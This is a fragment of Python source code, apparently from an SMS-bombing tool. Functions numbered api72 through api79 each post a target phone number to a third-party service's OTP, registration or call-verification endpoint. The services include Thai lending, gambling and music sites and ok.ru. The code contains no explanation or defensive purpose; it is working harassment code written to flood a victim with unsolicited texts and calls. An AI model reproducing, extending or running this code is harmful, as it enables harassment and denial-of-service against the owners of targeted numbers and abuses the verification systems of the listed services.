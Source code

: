     

def api72(phone):

    post("https://api.cashmarket-th.com/app/userinfo/send/smsCode", json={"baseParams":{"platformId":"android","deviceType":"h5","deviceIdKh":"20220118121149smyjjs57jxtqbwkuu74y0vd6p5yzhrmp86872f73364d46d3bf9446ddd583ef61ee8fafe504bab46ec267ca96a99281d6rreqhrlgsg4p3srgv1i5s4pp8u9la6gf1","termSysVersion":"5.1.1","termModel":"A37f","brand":"","termId":"null","appType":"6","appVersion":"2.0.0","pValue":"","position":{"lon":"null","lat":"null"},"bizType":"0000","appName":"Cash Market","packageName":"com.cashmarketth.h5","screenResolution":"720,1280"},"clientTypeFlag":"h5","token":"","phoneNumber":"","timestamp":"1642479101529","bizParams":{"phoneNum":phone,"code":"null","type":200,"channelCode":"hJ071"}})

    

def api73(phone):

    post("https://bacara888.com/api/otp/register",data={"applicant":phone,"serviceName":"gclub"})

    

def api74(phone):

    post("https://www.tslpv.net/api/v1/sendRegisterSms", data={"national_number":phone,"country_code":"TH","g_token":"null"})

    

def api75(phone):

    post("https://queenclub88.com/api/register/phone", data={"phone":phone})

    

def api76(phone):

    post("https://api.cdfoi9.com/api/v1/index.php", data=f"module=%2Fusers%2FgetVerificationCode&mobile={phone}&merchantId=111&domainId=0&accessId=&accessToken=&walletIsAdmin=",headers={"user-agent": "Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.74 Mobile Safari/537.36","content-type": "application/x-www-form-urlencoded"})

    

def api77(phone):

    get(f"https://api.joox.com/web-fcgi-bin/web_account_manager?optype=5&os_type=2&country_code=66&phone_number=0{phone}&time=1641777424446&_=1641777424449&callback=axiosJsonpCallback2")

    

def api79(phone):

    send = Session()

    send.headers.update({"User-Agent" : "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38","Content-Type" : "application/x-www-form-urlencoded","Accept" : "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9"})

    snd = send.post("https://ok.ru/dk?cmd=AnonymRegistrationEnterPhone&st.cmd=anonymRegistrationEnterPhone",data=f"st.r.phone=+66{phone[1:]}")

    sed = send.post("https://ok.ru/dk?cmd=AnonymRegistrationAcceptCallUI&st.cmd=anonymRegistrationAcceptCallUI",data="st.r.fieldAcceptCallUIButton=Call")
